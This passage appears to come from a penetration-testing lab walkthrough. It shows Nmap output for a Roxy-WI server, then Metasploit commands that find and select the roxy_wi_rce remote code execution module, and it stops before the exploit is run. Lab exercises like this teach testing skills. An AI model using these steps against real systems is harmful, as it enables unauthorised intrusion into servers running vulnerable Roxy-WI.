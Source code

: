 ```
|_http-server-header: Apache/2.4.52 (Ubuntu)
| ssl-cert: Subject: commonName=roxy-wi.org/organizationName=Roxy-WI/stateOrProvinceName=Almaty/countryName=US
| ssl-cert-dates: 2020-12-14+05:20+00
|_Not valid before: 2022-07-20T00:36:04
| ssl-date: 2024-01-02+11:09+00 (Unknown)
|_http-title: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.94 seconds
```

#### Step 2: Web Application Analysis
The Nmap scan reveals **Roxy-WI** is running. This is a web-based tool for managing HAProxy, Nginx, and Apache configurations.

```bash
# You can also browse to the application
curl -I http://target2.ine.local
```

#### Step 3: Metasploit Exploit Search
Now let's search for available exploits in Metasploit:

```bash
# Launch Metasploit
msfconsole

# Search for Roxy-WI exploits
msf6 > search roxy
```

**Expected Output:**
```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank       Check  Description
   -  ----                                      ---------------  ----       -----  -----------
   0  exploit/linux/http/roxy_wi_rce            2022-07-21       excellent  Yes    Roxy-WI 6.1.1.0 - Remote Code Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/roxy_wi_rce
```

#### Step 4: Configure and Execute the Exploit

```bash
# Select the exploit
msf6 > use 0

# Check required options
msf6 exploit(linux/http/roxy_wi_rce) > options
```
